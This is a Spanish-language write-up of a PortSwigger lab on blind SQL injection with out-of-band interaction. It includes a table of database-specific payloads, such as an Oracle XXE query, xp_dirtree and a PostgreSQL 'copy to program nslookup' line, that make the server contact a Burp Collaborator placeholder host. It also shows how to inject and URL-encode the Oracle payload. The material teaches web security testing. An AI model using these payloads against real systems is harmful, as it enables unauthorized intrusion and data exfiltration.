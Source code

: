 ```yaml
---
title: Blind SQL injection with out-of-band interaction - portswigger
date: 2024-08-04
categories: [Write up, portswigger]
tags: [sql injection]      # TAG names should always be lowercase
---
```


## DNS lookup

Puede hacer que la base de datos realice una búsqueda de DNS en un dominio externo. Para ello, deberá utilizar [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) para generar un subdominio exclusivo de Burp Collaborator que utilizará en su ataque y, luego, sondear el servidor de Collaborator para confirmar que se realizó una búsqueda de DNS.


|            |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| ---------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Oracle     | ( [XXE](https://portswigger.net/web-security/xxe) ) vulnerabilidad que activa una búsqueda de DNS. La vulnerabilidad ha sido corregida, pero existen muchas instalaciones de Oracle sin parches:<br><br>`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`<br><br>La siguiente técnica funciona en instalaciones de Oracle con todos los parches aplicados, pero requiere privilegios elevados:<br><br>`SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')` |
| Microsoft  | `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| PostgreSQL | `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| MySQL      | Las siguientes técnicas funcionan sólo en Windows:<br><br>`LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`  <br>`SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`                                                                                                                                                                                                                                                                                                                                                                                                                             |
|            |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |


Para este ejercicio debemos de tener en cuenta la anterior tabla. Ademas, tenemos que tener la version pro de `burpsuite` ya que haremos uso de `Burp Collaborator client`.

Haremos uso de la siguiente consulta:

```c
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

La anterior consulta la pondremos en el campo que es vulnerable pero dentro de `' || (<query>)-- -`


![20240805124630.png](20240805124630.png)

Luego tenemos que ponerlo en url encode para que no nos genere ningún error y enviamos la petición

![20240805124557.png](20240805124557.png)
